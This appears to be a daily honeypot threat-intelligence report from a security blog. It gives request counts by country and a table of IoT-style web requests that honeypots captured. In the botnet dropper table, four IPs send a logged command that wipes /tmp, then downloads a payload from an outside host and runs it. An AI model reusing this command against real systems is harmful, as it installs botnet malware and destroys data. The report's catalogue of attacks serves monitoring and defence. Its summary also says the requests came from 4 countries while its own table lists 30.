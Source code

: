 ```yaml
---
title: "Report: 2025-07-21 "
date: 2025-07-21
desciption: "Report: 2025-07-21" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-21 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 0 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 464 requests were recorded during the day, originating from 4 different countries, with a peak of 132 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| SG               | Germany            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                              |
|:--------------|:-------------------------------------------------------------------------------------|
| 8.219.165.143 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.142.60  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 49.65.102.238 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.221.137.14  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

| number_of_occurence   | request   |
|-----------------------|-----------|

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   132 | GB                 |
|  1 |                    78 | US                 |
|  2 |                    45 | TW                 |
|  3 |                    40 | NL                 |
|  4 |                    36 | DE                 |
|  5 |                    19 | PL                 |
|  6 |                    17 | BG                 |
|  7 |                    17 | FR                 |
|  8 |                    12 | AU                 |
|  9 |                    10 | RO                 |
| 10 |                     8 | SG                 |
| 11 |                     8 | SC                 |
| 12 |                     7 | NG                 |
| 13 |                     5 | CA                 |
| 14 |                     4 | IR                 |
| 15 |                     4 | HK                 |
| 16 |                     3 | KZ                 |
| 17 |                     3 | BE                 |
| 18 |                     2 | RU                 |
| 19 |                     2 | PT                 |
| 20 |                     2 | MU                 |
| 21 |                     2 | CN                 |
| 22 |                     1 | PA                 |
| 23 |                     1 | TR                 |
| 24 |                     1 | BR                 |
| 25 |                     1 | ES                 |
| 26 |                     1 | MC                 |
| 27 |                     1 | FI                 |
| 28 |                     1 | EG                 |
| 29 |                     1 | JP                 |
